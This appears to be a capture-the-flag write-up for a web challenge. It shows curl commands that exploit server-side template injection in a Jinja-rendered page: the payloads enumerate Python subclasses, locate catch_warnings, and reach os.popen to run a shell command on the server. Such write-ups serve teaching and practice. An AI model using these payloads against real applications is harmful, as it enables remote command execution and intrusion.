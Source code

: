 ```
curl 'http://render.web-server.challs.ctf.shellmates.club/' -X POST --data "name={{'foo'.__class__.__base__.__subclasses__()}}"
```

```html
...
        <br>
        <p id="nom" style="     @import url('https://fonts.googleapis.com/css2?family=Montserrat:wght@200;300&family=Roboto+Mono:wght@300&display=swap');
                                color:green;
                                                        font-size: 45px;
                                                        font-weight: bold;
                                                        font-family: 'Roboto Mono', monospace;">
Welcome Mentee : [&amp;lt;class &amp;#39;type&amp;#39;&amp;gt;, &amp;lt;class &amp;#39;async_generator&amp;#39;&amp;gt;, &amp;lt;class &amp;#39;bytearray_iterator&amp;#39;&amp;gt;, &amp;lt;class &amp;#39;bytearray&amp;#39;&amp;gt
...
&amp;lt;class &amp;#39;contextlib.ContextDecorator&amp;#39;&amp;gt;, &amp;lt;class &amp;#39;contextlib.AsyncContextDecorator&amp;#39;&amp;gt;, &amp;lt;class &amp;#39;contextlib._GeneratorContextManagerBase&amp;#39;&amp;gt;, &amp;lt;class &amp;#39;contextlib._BaseExitStack&amp;#39;&amp;gt;, &amp;lt;class &amp;#39;warnings.WarningMessage&amp;#39;&amp;gt;, &amp;lt;class &amp;#39;warnings.catch_warnings&amp;#39;&amp;gt;, &amp;lt;class &amp;#39;typing._Final&amp;#39;&amp;gt;, &amp;lt;class &amp;#39;typing._Immutable&amp;#39;&amp;gt;, &amp;lt;class &amp;#39;typing._NotIterable&amp;#39;&amp;gt;, typing.Any, &amp;lt;class &amp;#39;typing._PickleUsingNameMixin&amp;#39;&amp;gt;,
...
urceManager&amp;#39;&amp;gt;, &amp;lt;class &amp;#39;pkg_resources.NullProvider&amp;#39;&amp;gt;, &amp;lt;class &amp;#39;pkg_resources.NoDists&amp;#39;&amp;gt;, &amp;lt;class &amp;#39;pkg_resources.EntryPoint&amp;#39;&amp;gt;, &amp;lt;class &amp;#39;pkg_resources.Distribution&amp;#39;&amp;gt;]
        </p>
</body>

</html> 
```

We can find that `'warnings.catch_warnings'` class is among the classes :

```
<class 'warnings.catch_warnings'>
```

This classe imports Python `sys` module , and from `sys` we can reach out to `os` module.

After some digging, we found that this class is located in index **`#207`**, see `check_classes.py` for how to extract index, or use the following command :

```
curl 'http://render.web-server.challs.ctf.shellmates.club/' -X POST --data 'name={{[cls.__name__ for cls in "foo".__class__.__base__.__subclasses__()].index("catch_warnings")}}'
```

Now, here is how we can exploit is to, for example list directory of where the `app.py` is located (Note the use of the class index in previous command to generate the exploit).

```
curl 'http://render.web-server.challs.ctf.shellmates.club/' -X POST --data 'name={{"foo".__class__.__base__.__subclasses__()[207].__init__.__globals__["sys"].modules["os"].popen("ls").read()}}'
```
